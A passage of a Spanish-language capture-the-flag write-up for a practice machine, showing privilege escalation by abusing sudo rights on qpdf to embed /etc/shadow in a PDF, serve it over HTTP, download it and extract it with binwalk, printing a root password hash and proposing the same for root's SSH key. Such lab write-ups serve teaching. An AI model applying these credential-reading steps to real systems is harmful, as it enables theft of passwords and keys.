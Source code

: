 - Investigué un poco como utilizar esta herramienta y me di cuenta de que podemos insertar un archivo a un PDF.
- Se puede utilizar la bandera `--add-attachment` para incrustar archivos dentro de un PDF.
- En sí, se puede añadir al PDF como un adjunto que luego podría ser extraído utilizando `binwalk`:

~~~bash
consuela@iclean:~$ sudo qpdf --empty --add-attachment /etc/shadow -- out.pdf
consuela@iclean:~$ ls
out.pdf  user.txt
~~~

- Nos pasamos este montando un server de Python:

~~~bash
consuela@iclean:~$ python3 -m http.server 6969
Serving HTTP on 0.0.0.0 port 6969 (http://0.0.0.0:6969/) ...
~~~

- Bajamos el archivo a nuestra máquina:

~~~bash
❯ wget http://capiclean.htb:6969/out.pdf
--2024-04-15 15:55:20--  http://capiclean.htb:6969/out.pdf
Resolviendo capiclean.htb (capiclean.htb)... 10.10.11.12
Conectando con capiclean.htb (capiclean.htb)[10.10.11.12]:6969... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 1229 (1.2K) [application/pdf]
Grabando a: «out.pdf»

out.pdf                                        100%[=================================================================================================>]   1.20K  5.64KB/s    en 0.2s    

2024-04-15 15:55:21 (5.64 KB/s) - «out.pdf» guardado [1229/1229]
~~~

- Y con `binwalk` extraemos la información:

~~~bash
❯ binwalk -e out.pdf

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PDF document, version: "1.3"
522           0x20A           Zlib compressed data, default compression
~~~

- Ahora podemos ver el contenido de `/etc/shadow`:

~~~bash
❯ cat _out.pdf.extracted/20A
root:$y$j9T$s0AIwd7onN6K77K5v8DNN/$bSd333U5BKvkfCPEGdf9dLl3bOYwqOlFNtGZ1FQQuv/:19774:0:99999:7:::
daemon:*:19579:0:99999:7:::
bin:*:19579:0:99999:7:::
sys:*:19579:0:99999:7:::
~~~

- Al parecer la contraseña de root no se puede romper.
- Pensé más archivos, y realicé el mismo procedimiento para obtener la llave privada de `ssh` del usuario root.
- Con esto y repitiendo el mismo procedimiento reemplazando el archivo, obtendríamos la llave privada de curva elíptica.
- Nuestro comando quedaría algo así:
